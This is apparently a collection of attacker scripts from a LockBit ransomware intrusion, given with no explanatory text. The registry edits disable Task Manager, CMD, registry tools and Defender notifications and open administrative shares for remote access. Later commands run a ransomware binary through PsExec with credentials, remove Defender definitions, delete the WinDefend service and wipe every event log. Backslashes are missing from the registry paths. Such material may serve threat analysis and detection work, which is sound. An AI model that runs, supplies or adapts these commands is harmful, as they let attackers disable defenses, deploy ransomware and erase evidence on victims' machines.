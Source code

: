 ### Script to edit the Windows Registry

```
reg add "HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer" /f /v "HidePowerOptions" /t REG_DWORD /d 1
reg add "HKLMSOFTWAREMicrosoftWindowsCurrentVersionPoliciesExplorer" /f /v "HidePowerOptions" /t REG_DWORD /d 1
reg add "HKCUSoftwarePoliciesMicrosoftWindowsExplorer" /f /v "DisableNotificationCenter" /t REG_DWORD /d 1
reg add "HKCUSoftwareMicrosoftWindowsCurrentVersionPushNotifications" /f /v "ToastEnabled" /t REG_DWORD /d 0
reg add "hklmsystemcurrentcontrolsetcontrolStorage" /f /v "write Protection" /t REG_DWORD /d 0
reg add "hklmsystemcurrentcontrolsetcontrolStorageDevicePolicies" /f /v "writeprotect" /t REG_DWORD /d 0
reg add "hklmsystemcurrentcontrolsetServicesLanmanServerParameters" /f /v "AutoShareWks" /t REG_DWORD /d 1
reg add "hklmSOFTWAREMicrosoftWindowsCurrentVersionPoliciessystem" /f /v "LocalAccountTokenFilterPolicy" /t REG_DWORD /d 1
reg add "HKLMSoftwarePoliciesMicrosoftWindows DefenderUX Configuration"  /v "Notification_Suppress" /t REG_DWORD /d "1" /f
reg add "HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem" /v "DisableTaskMgr" /t REG_DWORD /d "1" /f
reg add "HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem" /v "DisableCMD" /t REG_DWORD /d "1" /f
reg add "HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesSystem" /v "DisableRegistryTools" /t REG_DWORD /d "1" /f
reg add "HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer" /v "NoRun" /t REG_DWORD /d "1" /f
```

### Script to execute LOCKBIT binary

```
cd c:&PsExec.exe -accepteula -d -h -high -u .<USERNAME> -p "<PASSWORD>" c:<RANSOMWARE_BINARY>.exe
cd c:&PsExec.exe -accepteula -d -h -i -high -u .<USERNAME> -p "<PASSWORD>" c:<RANSOMWARE_BINARY>.exe
cd c:&PsExec.exe -accepteula -d -h -u .<USERNAME> -p "<PASSWORD>" c:<RANSOMWARE_BINARY>.exe
cd c:&PsExec.exe -accepteula -d -h -i -u .<USERNAME> -p "<PASSWORD>" c:<RANSOMWARE_BINARY>.exe
tasklist | findstr /i <RANSOMWARE_BINARY> > <REDACTED><REDACTED><REDACTED>%COMPUTERNAME%.txt
cmd.exe /c "C:Program FilesWindows DefenderMpCmdRun.exe" -RemoveDefinitions -All
sc stop WinDefend
sc config WinDefend start= disabled
sc delete WinDefend
for /F "tokens=*" %%1 in ('wevtutil.exe el') DO wevtutil.exe cl "%%1"
```
